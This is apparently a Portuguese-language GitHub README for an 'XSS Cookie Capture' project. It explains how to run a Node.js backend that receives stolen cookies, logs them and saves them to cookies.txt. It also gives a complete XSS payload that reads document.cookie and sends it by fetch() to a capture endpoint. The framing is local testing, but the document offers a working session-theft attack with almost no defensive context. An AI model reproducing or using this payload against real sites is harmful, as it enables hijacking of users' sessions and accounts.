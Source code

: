 
# XSS Cookie Capture

Este repositório contém um script de captura de cookies via XSS, que envia os cookies de um site para um servidor backend.

## 🚀 Como Rodar o Projeto

### Pré-requisitos

- **Node.js** instalado na sua máquina.
- **NPM** (gerenciador de pacotes do Node.js).

### Passo a Passo

1. **Clonar o repositório:**

   Primeiro, faça o clone do repositório para sua máquina local:
   ```bash
   git clone <URL_DO_REPOSITORIO>
   cd <Pasta_do_repositorio>
   ```

2. **Instalar dependências:**

   Navegue até a pasta do projeto e instale as dependências necessárias:
   ```bash
   npm install
   ```

3. **Rodar o servidor:**

   Após a instalação das dependências, inicie o servidor Node.js com o comando:
   ```bash
   node server.js
   ```

   O servidor estará rodando na URL: `http://localhost:3000`.

### Testando o Código XSS Localmente

1. **Inserir o Script de XSS:**

   No input insira esse script:

   ```html
   <script>
       var cookies = document.cookie;
       fetch('http://localhost:3000/capture', {
           method: 'POST',
           headers: {
               'Content-Type': 'application/json'
           },
           body: JSON.stringify({ cookies: cookies })
       })
       .then(response => response.json())
       .then(data => console.log('Cookies enviados com sucesso:', data))
       .catch(error => console.error('Erro ao enviar cookies:', error));
   </script>
   ```

   - Isso capturará os cookies do site e os enviará para o servidor em `http://localhost:3000/capture`.

3. **Verificando os cookies no servidor:**

   No servidor, você verá os cookies capturados sendo logados no terminal. Eles também serão armazenados no arquivo cookies.txt.

